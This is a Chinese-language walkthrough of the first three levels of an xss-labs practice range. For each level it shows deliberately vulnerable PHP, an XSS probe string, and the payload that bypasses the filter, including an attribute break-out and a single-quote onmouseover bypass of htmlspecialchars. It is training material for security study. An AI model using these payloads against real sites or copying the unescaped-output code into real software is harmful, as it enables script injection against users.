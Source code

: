```yaml
---
{"dg-publish":true,"title":"自建环境_xss-labs","dg-path":"安全/靶场/自建环境_xss-labs.md","permalink":"/安全/靶场/自建环境_xss-labs/","dgPassFrontmatter":true}
---
```



# Level 1



函数源代码：
```php
<?php
ini_set("display_errors", 0);
$str = $_GET["name"];
echo "<h2 align=center>欢迎用户".$str."</h2>";
?>
```

这一关没有什么过滤，它会将我们的name值在网页中输出，所以我们尝试注入：
```php
<script>alert(1)</script>
```



# Level 2

![Pasted image 20240826195628.png](/img/user/picture/Pasted%20image%2020240826195628.png)
先构造一个测试payload：
```html
'';!--"<XSS>=&{()}
```

ctrl+u查看源码：
![Pasted image 20240826195751.png](/img/user/picture/Pasted%20image%2020240826195751.png)

**发现标题双引号、尖括号、&符号被进行了转义**
而下面的输入框却没有过滤

函数源代码
```php
$str = $_GET["keyword"];
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form action=level2.php method=GET>
<input name=keyword  value="'.$str.'">
```

> [!NOTE] 注意
> `htmlspecialchars($str)` 是 PHP 中用来将字符串中的特殊字符转换为 HTML 实体的函数。
> - `&` 转换为 `&amp;`
>- `<` 转换为 `&lt;`
>- `>` 转换为 `&gt;`
>- `"` 转换为 `&quot;`
>- `'` 转换为 `&#039;`（这是在双引号内使用时）

所以我们可以尝试将输入框中的内容进行闭合
```html
"><script>alert(111)</script>"<
```


# Level 3(绕过htmlspecials()函数)

![Pasted image 20240826200044.png](/img/user/picture/Pasted%20image%2020240826200044.png)

依旧用测试payload看一下
```html
'';!--"<XSS>=&{()}
```
![Pasted image 20240826200114.png](/img/user/picture/Pasted%20image%2020240826200114.png)
完啦，现在输入框中的内容也被进行了转义

源代码：
```php
$str = $_GET["keyword"];
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>"."<center>
<form action=level3.php method=GET>
<input name=keyword  value='".htmlspecialchars($str)."'>
```

由于htmlspecialchars默认配置是**不过滤单引号**的，于是想到构造单引号的payload。

```html
'onmouseover='alert(1)
```
移动鼠标到输入框触发onmouseover事件，过关！


